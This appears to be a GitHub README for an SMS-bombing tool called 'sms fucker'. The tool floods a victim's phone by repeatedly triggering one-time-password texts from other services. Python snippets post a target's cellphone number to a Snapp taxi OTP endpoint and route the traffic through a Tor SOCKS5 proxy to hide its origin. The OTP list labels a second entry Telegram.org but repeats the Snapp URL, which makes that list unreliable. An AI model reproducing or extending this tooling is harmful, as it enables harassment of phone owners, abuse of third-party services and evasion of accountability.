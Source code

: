 # sms fucker
Python tool For Fucking spamer sms
Use This only for fun!


![code](https://img.shields.io/badge/python-%203.7-blue)
![License](https://img.shields.io/github/license/masihgh/smsfucker?color=red)
![Version](https://img.shields.io/badge/Version-1.0-blueviolet)
![forks](https://img.shields.io/github/forks/masihgh/smsfucker?style=social)


Requirements
---------
* Python >= 3.7
* requests-library
* time-library
* colorama-library


Download
---------

#### Using Git

From a project directory, run:
```
git clone https://github.com/Masihgh/smsfucker.git
```

Examples
---------

#### Based on Request
```python
urlsend = "https://#/v2/otp"
mydata = {"cellphone":contry+phone}
requests.post(urlsend,data=mydata)
```
#### use Proxy
```python
proxies = {'https': "socks5://127.0.0.1:9050"}
requests.post(urlsend,data=mydata,proxies=proxies)
```

### Otp List:
##Snap.taxi
```python
urlsend = "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp"
mydata = {"cellphone":contry+phone}
```
##Telegram.org
```python
urlsend = "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp"
mydata = {"cellphone":contry+phone}
```
License
------------

This open-source software is distributed under the MIT License. See LICENSE.md

Contact me
------------

You can contact me [via Website](https://masihgh.ir)

Support me
------------

You can support me using via bitcoin
</br>
```
btc-wallet-Adress: 1xYzCDGGgEhWAvW4aEqP6DVspnEZ2pHWK
```
